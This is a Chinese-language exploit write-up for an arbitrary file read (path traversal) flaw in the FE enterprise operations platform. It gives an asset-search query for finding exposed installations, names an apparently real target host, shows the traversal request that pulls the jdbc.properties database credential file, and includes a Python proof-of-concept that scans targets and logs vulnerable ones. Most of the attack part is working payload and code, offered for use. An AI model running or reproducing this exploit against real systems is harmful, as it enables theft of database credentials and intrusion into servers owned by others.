 ## 一、资产搜索

```
app="飞企互联-FE企业运营管理平台"
```

## 二、网站测试

```
http://men.zcjtech.com:9090
```

## 三、验证漏洞

```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

![image-20240914162549475](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914162549475.png)

## 四、POC

```
def poc(target):
    payload = "/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "mssql" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"{target}\n")
                    f.close()
                    print(f"[+]{target}存在任意文件读取漏洞")
                    # return True
                print(res2.text)
            else:
                print(f"[-]{target}不存在任意文件读取漏洞")
        else:
            print("连接超时，请手动测试！！！")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240914163828090](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914163828090.png)

![image-20240914163856809](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914163856809.png)

![image-20240914163943974](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914163943974.png)
